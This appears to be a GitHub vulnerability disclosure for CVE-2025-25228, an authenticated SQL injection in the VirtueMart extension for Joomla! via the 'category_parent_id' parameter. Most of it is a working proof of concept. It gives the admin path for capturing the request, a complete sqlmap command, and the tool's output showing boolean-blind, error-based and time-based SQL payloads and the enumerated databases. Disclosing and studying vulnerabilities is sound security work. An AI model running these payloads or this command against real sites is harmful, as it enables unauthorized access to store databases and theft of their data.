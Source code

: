 # CVE-2025-25228: SQL injection in VirtueMart 1.0.0 - 4.4.7 for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-25228

**VirtueMart:** https://extensions.joomla.org/extension/virtuemart/

## Introduction
An authenticated (administrator) SQLi vulnerability exists in VirtueMart for Joomla! v4.4.4 via the 'category_parent_id' parameter under Product Category.

## POC
To exploit this vulnerability go to 'VirtueMart Control Panel >> Products >> Categories >> Category Name >> Pagination >> Edit' and save the edit request (req.txt).

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql -p 'category_parent_id' --batch

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
Parameter: MULTIPART category_parent_id ((custom) POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: ------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_name"

Pagination

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

(SELECT (CASE WHEN (7632=7632) THEN 0 ELSE (SELECT 2787 UNION SELECT 4392) END))

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

0 AND GTID_SUBSET(CONCAT(0x716a627a71,(SELECT (ELT(4979=4979,1))),0x716a767171),4979)

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

0 AND (SELECT 4218 FROM (SELECT(SLEEP(5)))cNIy)
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
